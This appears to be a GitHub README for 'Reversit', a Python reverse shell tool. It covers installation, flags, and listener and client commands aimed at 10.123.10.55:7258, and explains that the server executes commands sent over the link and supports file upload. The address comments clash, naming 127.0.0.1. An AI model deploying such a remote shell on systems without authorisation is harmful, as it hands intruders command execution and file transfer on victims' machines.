 # ![Reversit](/img/Reversit.png)
## Reverse Shell Written in Python 3
## 🔧 Installation
 You will need:
 * Python version 3.10
 * Pip 3 for the client computer
### macOS & Linux
 1. Clone the repository from github: `git clone https://github.com/Brandonli-13/Reversit.git`
 2. Change to Reversit directory: `cd Reversit/`
 3. Make `install` executable: `chmod +x ./install`
 4. Run `./install`: `./install`

## 🔨 Usage
### Flags
 `-h`, `--help`: Display help message<br/>
 `-a`, `--address`: Set IP address to connect to (client) / IP address to listen for a connection on (server)<br/>
 `-p`, `--port`: Set port number to connect to (client) / port number to listen for a connection on (server)<br/>
 `-b`, `--buffer`: Set buffer size, default: 131072 (bytes)<br/>
 `-s`, `--separator`: Set separator between type of request and data, default: \<separator\><br/>
 `-l`, `--listen`: Listen for incoming connections<br/>

### Quick Usage
 Server: `reversit -a 10.123.10.55 -p 7258 -b -s -l`<br/>
 Client: `reversit -a 10.123.10.55 -p 7258 -b -s`

## 🪛 Features
* When the client side closes connection, the server will keep on listening for another connection
* Ability to change directory
* Upload file

## Contributing
Contributions are welcome. Read [this](https://gist.github.com/MarcDiethelm/7303312#file-contributing-md) before contributing to this program.

## ⚙️ How Reversit Works
1. Server: `reversit -a 10.123.10.55 -p 7258 -b -s -l` <-- Starts listening on 127.0.0.1:7258
2. Client: `reversit -a 10.123.10.55 -p 7258 -b -s` <-- Connects to server on 127.0.0.1:7258
3. Client: `ls` <-- Sends `command<separator>ls` to server
4. Server: Recognizes `command` before separator and executes command
5. Server: Sends command output (stdout) to client
6. Client: Displays output

